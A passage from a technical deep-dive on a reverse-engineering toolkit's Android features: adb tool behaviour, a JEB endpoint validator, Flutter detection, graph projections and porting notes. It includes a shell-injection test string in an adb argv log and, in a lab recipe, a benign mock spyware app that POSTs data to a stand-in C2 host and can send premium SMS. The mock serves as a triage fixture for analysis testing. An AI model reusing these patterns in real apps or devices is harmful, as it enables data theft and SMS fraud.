| 13 | `inspect_adb_package` | `shell dumpsys package <pkg>` | no | read | N L | | | 60 s / 8 MiB |
| 14 | `list_adb_directory` | `shell sh -c <fixed find script> rea-list-directory <path> <batch-script>` | no | read (as shell user) | N L | | | 30 s / 4 MiB |
| 15 | `pull_adb_package` | `shell pm path <pkg>` then `pull <apk> <local>` per APK | **yes** (new dir `<out>/<pkg>/`, must not exist), SHA-256 each | read | N L | W | | 600 s |
| 16 | `pull_adb_file` | `pull <absolute device path> <local>` | **yes** (file must not exist) | read (permission-bound) | N L | W | | 600 s |
| 17 | `capture_adb_screen` | `exec-out screencap -p` | **yes** (PNG) | read (no device file) | N L | W | | 60 s / 32 MiB |
| 18 | `collect_adb_bugreport` | `bugreport <staging dir>` | **yes** (zip; collision-safe) | device builds a bugreport | N L | W | | 600 s |
| 19 | `push_adb_file` | `shell test -e <path>`, `push <local> <path>`, `shell sha256sum <path>` | reads local file | **writes a file on the device** (refuses existing unless `overwrite`; check is not atomic) | N L | W | D | 600 s |
| 20 | `install_adb_package` | `install [-r] <apk>` | reads APK, hashes it | **installs the package** (may replace) | N L | | D | 600 s |
| 21 | `uninstall_adb_package` | `uninstall <pkg>` | no | **removes package and data** | N L | | D | 600 s |
| 22 | `start_adb_app` | `shell cmd package resolve-activity --brief -c android.intent.category.LAUNCHER <pkg>` then `shell am start -W -n <component>` | no | **launches the app** | N L | | D | 30 s |
| 23 | `start_adb_activity` | `shell am start -W -a <action> [-d uri] [-n comp] [--es/--ez/--ei/--el/--ef k v]...` | no | **starts an intent** | N L | | D | 30 s |
| 24 | `stop_adb_app` | `shell am force-stop <pkg>` | no | **force-stops a package** | N L | | D | 30 s |

Notes: timeouts/caps from `AdbProvider.ts:94-117`. `mayDiscardData` is false for all 24 (uninstall removes data but is not flagged `mayDiscardData`; INFERRED oversight, since `docs/adb-device-analysis.md` says "Removes a package and its data"). MCP `annotations.readOnlyHint` is `false` for every adb tool (derived from `mutatesSession`), so the "read-only" label in the docs is not machine-visible; `destructiveHint` is true only for the D tools (RUN: `list_adb_devices` vs `push_adb_file` annotation dump).

**RUN with the stand-in adb** (argv log, `ch19/fakeadb/argv.log`):

```text
ARGV: version                                  <- inspect-adb-client / client identity before every op
ARGV: devices -l                               <- list-adb-devices
ARGV: -s emulator-5554 shell getprop           <- inspect-adb-device
ARGV: -s emulator-5554 shell am start -W -a android.intent.action.VIEW -d 'https://x.invalid/a?b=1&c=$(id)' -n com.demo.spy/.MainActivity --es note 'it'\''s a test; id'
```

The last line is `start-adb-activity emulator-5554 android.intent.action.VIEW --data-uri 'https://x.invalid/a?b=1&c=$(id)' --component com.demo.spy/.MainActivity --extra "string:note:it's a test; id"`: shell metacharacters (`$()`, `;`, `'`) arrive at the device shell as single quoted operands, i.e. the quoting layer works as designed. Evidence from this run: `provider {id:"adb", version:"34.0.5-fake"}`, raw stdout retained, `parameters` echo the request (RUN).

### 5.3 Result semantics worth knowing

* `inspect_adb_device` projects a fixed `getprop` whitelist and reports `emulator_observed` from `ro.kernel.qemu` (RUN with the stand-in: `true`); device `kind` is inferred from serial prefix/USB (`kind_basis`), not attested.
* `pull_adb_package` refuses unsafe device paths (`unsafe_device_path`), duplicate local names (`duplicate_local_destination`), and unavailable destinations; successful files are digested; partial pulls return `coverage: "partial"`. Cancellation keeps completed artifacts (docs).
* `install_adb_package` returns the device's `Success/Failure [...]` verdict verbatim; `replaced` is always `null` because REA does not query prior package state.
* Evidence embeds the producing client (`binary_path`, `path_source`, `version`, `installed_path`).

### 5.4 Agent flow: acquire from a device, then analyze (sequence, DOC)



*Figure 3. Acquisition then static analysis. Everything here is device-read-only; the install/start/stop tools are separate and explicitly mutating.*

**Dynamic lane (DOC).** `install_adb_package` -> `start_adb_app` -> `read_adb_logcat --pid` -> `stop_adb_app` -> `uninstall_adb_package` is the documented dynamic-analysis cycle (`docs/adb-device-analysis.md`, "Package lifecycle and dynamic analysis"). It **runs the sample on the device**; `push_adb_file` is how a Frida server would be placed (`push-adb-file ... /data/local/tmp/frida-server`) and Frida would then be driven through the Frida lane (chapter 18 part B). REA never installs frida-server itself.

---

## 6. JEB bridge (`src/jeb`) — DOC

* JEB is a bring-your-own engine; REA only connects to its **MCP-over-HTTP** endpoint, default `http://127.0.0.1:8425/mcp`, override `REA_JEB_MCP_URL`. The endpoint validator (verbatim) allows only `http(s)`, literal loopback host, no credentials, route `/mcp`, no query/fragment:

`src/jeb/JebMcpEndpoint.ts:16-62`

```ts
export const parseJebMcpEndpoint = (
  value: string | undefined,
): Result<URL, AnalysisError> => {
  const raw = value === undefined || value.length === 0 ? null : value;
  let url: URL;
  try {
    url = new URL(raw ?? DEFAULT_JEB_MCP_ENDPOINT);
  } catch {
    return err(
      new AnalysisInputError("jeb_mcp_endpoint", {
        cause: "Expected an absolute http(s) URL",
      }),
    );
  }
  if (url.protocol !== "http:" && url.protocol !== "https:")
    return err(
      new AnalysisInputError("jeb_mcp_endpoint", {
        cause: "Only http and https JEB MCP endpoints are supported",
      }),
    );
  if (url.hostname !== "127.0.0.1" && url.hostname !== "[::1]")
    return err(
      new AnalysisInputError("jeb_mcp_endpoint", {
        cause:
          "JEB MCP endpoint must use a literal loopback host (127.0.0.1 or ::1)",
      }),
    );
  if (url.username !== "" || url.password !== "")
    return err(
      new AnalysisInputError("jeb_mcp_endpoint", {
        cause:
          "Embedding credentials in the JEB MCP endpoint is not supported; configure authentication with the engine",
      }),
    );
  if (url.pathname !== "/mcp" && url.pathname !== "/mcp/")
    return err(
      new AnalysisInputError("jeb_mcp_endpoint", {
        cause: "JEB MCP endpoint must use the /mcp route",
      }),
    );
  if (urlDeclaresQueryOrFragment(url))
    return err(
      new AnalysisInputError("jeb_mcp_endpoint", {
        cause: "JEB MCP endpoint query strings and fragments are not supported",
      }),
    );
  return ok(url);
```

* Engine tools called: `get_client_information` (`inspect_jeb_client`), `open_project` (`open_jeb_project`, argument `file_path`), `list_units` (`list_jeb_units`, engine caps pages at 100, a full page is reported `partial`), `decompile_code_item` (`decompile_jeb_item`) (`src/jeb/JebProvider.ts:218-370`).
* Effects (`toolEffects.ts:~296-306`): `accessesNetwork` only (loopback); `open_jeb_project` `idempotent:false` (engine-side project state). REA never launches JEB and never touches `.jdb2` itself. Paths are resolved **by the JEB process**, not by REA.
* RUN without a JEB endpoint: `capability_unavailable ... "Start a JEB client serving MCP (default http://127.0.0.1:8425/mcp) or set REA_JEB_MCP_URL"` (`details.reason: "fetch failed"`).
* Docs note: JEB 5.48 headless instances do not advertise `open_project`; the target must be chosen when the engine starts. Verified by the vendor lane against JEB 5.48.0 / `jeb-mcp-server` 1.3.0 (docs, not reproduced).
* Why it matters: JEB is the only engine in the family that returns **engine-grade decompilation including string constants and obfuscation-aware renaming** (per docs); it is the practical complement to the JADX gap in 3.7. Licensing is the operator's.

---

## 7. Flutter (`src/flutter`)

**RUN (negative case)**: `rea identify-flutter-build demo-unsigned.apk --json` ->

```json
{"target":{"path":".../demo-unsigned.apk","bytes":1989,"sha256":"c1b84b23...577f"},"flutter_detected":false,"abis":[],"coverage":"complete"}
```

with limitation `No lib/*/libapp.so was found; the target does not carry a Flutter AOT payload` (a negative answer is complete: "absence is an answer", docs).

What the real positive path does (DOC; `docs/flutter-analysis.md`, `src/flutter/FlutterBuildProvider.ts`, `DartElf.ts`, `FlutterPayloadScan.ts`, `ElfBuildId.ts`): pure parsing through the hardened ZIP reader of `lib/<abi>/libapp.so` and `libflutter.so`; locates the four `_kDart*Snapshot*` symbols through the ELF dynamic symbol table; reads the Dart snapshot hash 20 bytes after the `f5f5dcdc` magic (VM and isolate cross-checked; disagreement keeps `snapshot_hash_candidates` and `snapshot_hash: null`); GNU build IDs from `PT_NOTE`/`SHT_NOTE`; labeled `Dart VM version`/toolchain strings; `inspect_dart_aot` additionally projects up to 500 `package:` URIs, 500 `dart:` URIs and 2,000 identifier-shaped tokens (the docs' reference target counts 756 and 201 before truncation). The snapshot hash maps to a Dart SDK release only via an external dataset; **REA performs no lookup**. Limits (`FlutterBuildProvider.ts:61-76`): APK 2 GiB, library 256 MiB, cumulative extraction 768 MiB, ZIP metadata 8 MiB, <= 32 ABIs, <= 64 distinct snapshot hashes, pools 500 URIs / 2,000 tokens. The APK is copied to an owned read-only snapshot first. Effects: `writesFilesystem` (private snapshot), no process launch. Malware relevance: identifies Flutter-wrapped samples (where JADX shows only a thin Java shell) and gives the Dart SDK pivot for community snapshot parsers.

---

## 8. Application-graph projections

### 8.1 `project_android_application_graph` (RUN)

An execution-free projection of **already authenticated inventory Evidence** (the output of `inspect_artifact`), never of the APK file itself. Input schema is the shared `applicationInventoryProjectionInputSchema`; result schema (verbatim):

`src/domain/android/androidApplication.ts:33-76`

```ts
export const androidApplicationProjectionResultSchema = z.strictObject({
  projection_id: prefixedDigestSchema("adp"),
  root_sha256: digestSchema,
  root_format: z.literal("apk"),
  source_evidence_ids: z.array(evidenceIdSchema).min(1),
  components: z.strictObject({
    manifests: z.array(componentSchema),
    resources: z.array(componentSchema),
    dex: z.array(componentSchema),
    jvm_classes: z.array(componentSchema),
    native_libraries: z.array(componentSchema),
    javascript: z.array(componentSchema),
    signing: z.array(componentSchema),
  }),
  unavailable_components: z.array(unavailableComponentSchema),
  runtime_families: z.array(
    z.enum([
      "dalvik-art",
      "java-kotlin",
      "native",
      "javascript",
      "react-native",
      "flutter",
      "unity",
    ]),
  ),
  bridge_candidates: z.array(
    projectedBridgeCandidateSchema([
      "managed-and-native-content",
      "jni-library-convention",
      "react-native-convention",
      "flutter-convention",
      "unity-convention",
    ] as const),
  ),
  bridge_candidate_coverage: bridgeCandidateCoverageSchema,
  coverage: z.strictObject({
    status: z.enum(["complete-within-inventory", "partial"]),
    // Count completeness is separate from the declared coverage status.
    inventory_complete: z.boolean(),
  }),
  limitations: z.array(z.string()),
});

```

RUN procedure and result: `rea inspect-artifact demo-unsigned.apk --json > inventory.json`, wrap as `{"inventory_evidence":[<that JSON>]}`, `rea project-android-application-graph proj-in.json --json`. (The CLI accepted the whole `inspect-artifact` Evidence; the MCP description asks for the nested `inventory_artifact` Evidence — both authenticated forms parse.) Output for the demo APK:

```json
{ "projection_id": "adp_939109a3...", "root_sha256": "c1b84b23...577f", "root_format": "apk",
  "components": { "manifests": [{"path":"AndroidManifest.xml","sha256":"40092fc6...d262","format":"file"}],
                  "resources": [], "dex": [{"path":"classes.dex","sha256":"31b68b13...8198","format":"file"}],
                  "jvm_classes": [], "native_libraries": [], "javascript": [], "signing": [] },
  "runtime_families": ["dalvik-art"], "bridge_candidates": [],
  "bridge_candidate_coverage": {"status":"complete","total_candidates":0,"emitted_candidates":0,"omitted_candidates":0},
  "coverage": {"status":"complete-within-inventory","inventory_complete":true},
  "limitations": ["ZIP inventory lists central-directory entries only...", "...an empty signing array does not mean the APK is unsigned."] }
```

Behavior: exact component paths + hashes; runtime-family hints from complete native library names (`libreactnativejni.so`, `libhermes.so`, `libflutter.so`, `libunity.so`...); bridge hypotheses are a DEX/JVM x native Cartesian product, computed with its serialized size before materialization and truncated to a 2 MiB JSON budget with `bridge_candidate_coverage` reporting omissions (`docs/android-analysis.md`). A path pair is **not** evidence that managed code loads that library. The projection is deterministic (`projection_id` = digest).

### 8.2 `project_harmony_application_graph` — DOC

Same pattern for `.hap`/`.hsp`/App Pack inventories (`src/domain/harmony/harmonyApplication.ts`, 231 lines): packaging-model hint (Stage only from `module.json`, FA only from `config.json`, `:105`), Ark bytecode (`.abc`/`.pa`, `:200`), resources (`resources.index`, `resources/`, `assets/<module>/resources/`, `:177-180`), `META-INF` certificate-entry suffixes (`:191`), N-API bridge hypotheses (`napi-library-convention`, `:58, 226-231`). `.har` is deliberately not classified by suffix (ambiguous with HTTP Archive). No Ark decoding, no signature verification. Fixture lane downloads an MIT HAP pinned by SHA-256 (`npm run fixtures:harmony`, `docs/harmony-analysis.md`).

---

## 9. Reproducible lab recipe: the demo APK (benign)

Tools (apt on Debian/Ubuntu): `aapt`, `dalvik-exchange`, `libandroid-23-java` (provides `android-23/android.jar`), a JDK (`javac`; lab: 21.0.12), `zip`. The sample is a **benign mock** with the *shape* of a spyware dropper (permissions, an outbound POST, a premium-SMS method); the URL is an RFC 2606 `.invalid` name and nothing runs it.

`MainActivity.java`:

```java
package com.demo.spy;
import android.app.Activity;
import android.os.Bundle;
import android.telephony.SmsManager;
import java.net.HttpURLConnection;
import java.net.URL;
public class MainActivity extends Activity {
  static final String C2 = "https://c2.example.invalid/api/v1/collect";
  @Override protected void onCreate(Bundle b) { super.onCreate(b); exfil("hello"); }
  static void exfil(String data) {
    try {
      HttpURLConnection c = (HttpURLConnection) new URL(C2).openConnection();
      c.setRequestMethod("POST"); c.setDoOutput(true); c.getOutputStream().write(data.getBytes()); c.getResponseCode();
    } catch (Exception e) { }
  }
  public static void sendPremium() { SmsManager.getDefault().sendTextMessage("+10000000000", null, "PREMIUM", null, null); }
}
```

`AndroidManifest.xml`:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.demo.spy" android:versionCode="1" android:versionName="1.0">
  <uses-sdk android:minSdkVersion="23" android:targetSdkVersion="23"/>
  <uses-permission android:name="android.permission.INTERNET"/>
  <uses-permission android:name="android.permission.SEND_SMS"/>
  <uses-permission android:name="android.permission.READ_SMS"/>
  <application android:label="Demo">
    <activity android:name=".MainActivity" android:exported="true"><intent-filter><action android:name="android.intent.action.MAIN"/><category android:name="android.intent.category.LAUNCHER"/></intent-filter></activity>
  </application>
</manifest>
```

Build (verbatim from the lab script `docs/deep-dive/manual-tests/run-lab.sh:16`; I re-ran it in a clean directory — it succeeded):

```sh
mkdir -p apk/src/com/demo/spy apk/classes
cp MainActivity.java apk/src/com/demo/spy/ && cp AndroidManifest.xml apk/
cd apk
AJ=/usr/lib/android-sdk/platforms/android-23/android.jar
javac -source 8 -target 8 -cp $AJ -d classes src/com/demo/spy/MainActivity.java
dalvik-exchange --dex --output=classes.dex classes
aapt package -f -M AndroidManifest.xml -I $AJ -F demo-unsigned.apk
zip -q -j demo-unsigned.apk classes.dex
```

Reproduction check (RUN): the rebuilt `classes.dex` is 1,692 bytes (same as the original); the APK contents are `AndroidManifest.xml` (aapt binary XML, 2,132 bytes) and `classes.dex`; the APK sha256 differs between builds (`77cf5c18...e344f` rebuilt vs `c1b84b23...577f` original) only because `zip` stamps the current time on `classes.dex` — the pipeline is functionally reproducible, not bit-reproducible, unless you normalize timestamps. The APK has **no `resources.arsc`** (the manifest has no resource references), no signature (`-unsigned`), no native libs; consequently `project_android_application_graph` reports one manifest, one DEX, `dalvik-ark` only.

Tool environment used for every RUN in this chapter:

```sh
export GHIDRA_INSTALL_DIR=/opt/lab/ghidra_12.1.4_PUBLIC   # needed only because the CLI boots all providers
export REA_JADX_MCP_JAR=/opt/lab/jadx-mcp.jar             # jadx-headless-mcp 0.7.1, sha256 6e5eacf5...ff75
node scripts/rea.mjs inspect-android-package samples/apk/demo-unsigned.apk --json
```

---

## 10. Porting notes

**(a) Separable units**

1. *JADX bridge* (`src/android/*` + `bridge/android/ReaJadxBridge.java`): the interesting reusable idea is **narrowing a third-party MCP engine** — remove all tools but eight, wrap listing/xref tools with typed schemas, pin engine version by handshake, snapshot inputs, own the process. Liftable as "headless decompiler adapter" for any JVM tool.
2. *Domain contracts* (`src/domain/android/*`, `src/domain/adb/*`, `src/domain/mobileApplicationGraphProjection.ts`): pure zod; the application-graph projection is a self-contained inventory-to-graph function.
3. *ADB provider* (`src/adb/*`): fixed-argv adb runner with shell-quoting, bounded capture, additive pulls, hash-verified transfers; portable to any host that can `execFile` adb.
4. *Apktool, JEB, Flutter providers*: independent; Flutter's `DartElf`/`FlutterPayloadScan` are pure ELF/Dart-snapshot parsers over a bounded ZIP reader.
5. *Owned-process supervisor* from chapter 18 (JVM, apktool and adb all run under it).

**(b) Dependencies:** `zod`, the MCP SDK client (`@modelcontextprotocol/client`) for the JADX and JEB transports, REA's hardened ZIP reader (`src/artifacts/`) and `RegularFile` snapshot helpers, `Result`/`AnalysisError`, Evidence model (chapter 10), and the process-ownership layer. External: JDK >= 17 (full), jadx-headless-mcp 0.7.1, apktool >= 2.7.0, adb (platform-tools 34.0.5 verified), JEB (licensed).

**(c) Must be re-implemented elsewhere:** anything needing the JVM engine (decompiler), APK signature scheme v2/v3 verification (REA: `not_performed`), split-APK/AAB merging, DEX constant-pool/string extraction (gap 3.7), resource table decoding without Apktool, device-farm management, Windows ownership primitives if not on Windows x64, and a *trusted engine distribution* mechanism (REA only records the JAR digest).

**(d) Relevance to malware analysis**

* **Safe static triage on a disposable host:** the five JADX tools + graph + Flutter ID give permissions, components (via manifest text), method bodies, caller cross-references with DEX offsets. Good for first-pass family/behavior triage. Weak for: obfuscated/packed samples (decompilation failures surface as `fell_back`/`partial`), constant strings (3.7), native code (not analyzed; Android native libs go to the native providers), dynamic loading, and anything split.
* **Trust boundary:** the JAR runs in a JVM with the REA user's rights; REA only *labels* an unexpected JAR via `source_revision: null`. Pin it yourself.
* **Device lane requires an isolated device/emulator.** `install_adb_package`, `start_adb_app`, `start_adb_activity` **execute the sample on the device**; `pull_adb_file` can exfiltrate any file the adb shell user can read (REA only writes pulls into a new, not-yet-existing local path). Use a throwaway emulator snapshot with no accounts or network route to production, and treat `read_adb_logcat` output as untrusted target content (REA marks adb results `_meta.provenance.untrusted_content`).
* **Sandbox requirement summary:** static tools — run in a disposable VM (JVM executes third-party JAR). adb dynamic tools — additionally require a network-contained emulator/device.

---

## 11. Discrepancies and open items

| # | Item | Evidence |
|---|---|---|
| 1 | `docs/android-analysis.md` says the family is "present on repository main and in npm 4.1.0"; the checkout is 6.4.0 (stale sentence) | doc vs `package.json` |
| 2 | The pinned SHA-256 is advisory (accepted if different, `source_revision: null`), although the doc speaks of "pinned release metadata" and the lab notes call it "sha256 verified" | RUN 3.4 |
| 3 | `install/start/stop` tools are not flagged `executesForeignCode` (host-scoped definition); `uninstall_adb_package` is not flagged `mayDiscardData` | `toolEffects.ts:11-17, 418-460` |
| 4 | Every adb "read" tool has `readOnlyHint:false` (derived from `mutatesSession`), so clients cannot auto-approve them as read-only | catalog annotations |
| 5 | Constant-field initializers (C2 URLs) not reachable through the Android tools | RUN 3.7 |
| 6 | `project_android_application_graph` input: CLI accepted the full `inspect-artifact` Evidence; the contract text asks for nested `inventory_artifact` Evidence | RUN 8.1 |
| 7 | adb, apktool, JEB, HarmonyOS flows could not be executed with real tools (not installed) | DOC |
| 8 | The user's attached house-rules CLAUDE.md predates the Android/mobile families | brief |
